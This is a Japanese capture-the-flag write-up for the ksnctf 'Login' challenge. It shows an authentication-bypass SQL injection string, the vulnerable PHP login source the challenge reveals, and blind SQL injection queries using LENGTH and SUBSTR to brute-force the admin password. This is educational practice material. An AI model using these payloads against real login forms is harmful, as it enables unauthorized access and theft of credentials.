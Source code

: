 #  Login 120pt

### 問題
```text
http://ctfq.sweetduet.info:10080/~q6/
```
- トップページ

![画像](ksnctf_login.png)

### 解説
- 最初に `admin` でログインした方が良さそうなので、IDにはadminを入れる、Passには `SQLInjection` を仕掛けてみる。

- Passに `1' or '1' = '1';--` を入れると次のような画面が現れる。

```html
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:

<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

- このhtmlからわかるように、flagはさっきのフォームのPassっぽい。
- また、idがadminなので、以下の箇所が脆弱性と推測される。

```php
$r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
```

- まず、パスワードの長さを確認し、ブルートフォースを仕掛ける方針で進める。

- Passは以下のsqlをpostするようなsolve.pyのSolveクラスのget_pass_lengthメソッドを使う。

```sql
admin' AND (SELECT LENGTH(pass) FROM user WHERE id='admin') = (任意の文字数); --
```

- Passの長さがわかったので、想定される文字列に対してブルートフォースをかけるsolve.pyのSolveクラスのget_passメソッドを使う。。

```sql
admin' AND SUBSTR((SELECT pass FROM user WHERE id='admin'), 開始位置, 終了位置) = 'FLAG'; --
```

- 一定の時間放置しておくとflagが出現する。

- 今回の攻撃名は `ブラインド SQL Injection` と言う。これは、`挿入したSQLに対する応答ページの違いから情報を盗み出す攻撃`である。

- Exploit コードが自分の中ではキレイに書けて嬉しい。

### 参考
- [SQLインジェクションについて](https://qiita.com/ccccan/items/8712771799cf4bb7c868)

- [SQL 文字列抽出関数 SUBSTR](https://www.sasukepg.jp/sql/177/)

- [Python 文字列定数](https://docs.python.org/ja/3/library/string.html#string.ascii_lowercase)

- [深刻な「ブラインドSQLインジェクション」の脅威](https://www.atmarkit.co.jp/ait/articles/1402/04/news002_2.html)
